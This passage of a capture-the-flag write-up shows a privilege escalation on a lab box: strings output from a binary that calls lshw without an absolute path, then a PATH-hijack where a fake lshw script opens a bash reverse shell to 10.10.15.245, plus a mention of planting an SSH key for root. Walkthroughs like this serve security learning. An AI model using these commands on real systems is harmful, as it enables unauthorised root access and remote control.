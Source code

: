 ```
...
ATSH
[A\]
ATSH
 [A\]
ATSH
 [A\]
AWAVI
AUATL
[]A\A]A^A_
popen() failed!
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
;*3$"
zPLR
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
...
```

In the middle of a lot of garbage, macros, file headers, etc, we found `lshw`, `fdisk`, `cat` and `free`. When running the binary it looks like these programs are ran.
Hmm, this looks exploitable. Some googling later I found it was! Since the paths are not absolute and we can manipulate environment variables before running the program, we can just change the `$PATH` to include a directory where we have a script that overloads one of those binaries into giving us a shell! 😁

```
theseus@ubuntu:~$ tmp_dir=$(mktemp -d)
theseus@ubuntu:~$ cd $tmp_dir
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.15.245/8934 0>&1' > lshw
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ chmod +x lshw
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ cat lshw
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.245/8934 0>&1
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ export PATH=".:$PATH"
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ /bin/sysinfo
====================Hardware Info====================

```

The script will now hang here while the reverse shell is spawned. At the time this is what I did. When making this writeup I tried to get an interactive shell directly in the same session, but just having `bash -i` or `bash -c 'bash -i'` in the script resulted in an interactive prompt, but one that only output the results when the file was done running (i.e. when we exited the root prompt via `exit` or Ctrl-D). I tried some redirection of stdout and such but did not manage to fix this. If you know a way to make this work, be sure to let me know! 😉 (Additionally we could also write an ssh public key to root's home and just SSH in afterwards, like we did in the last writeup)
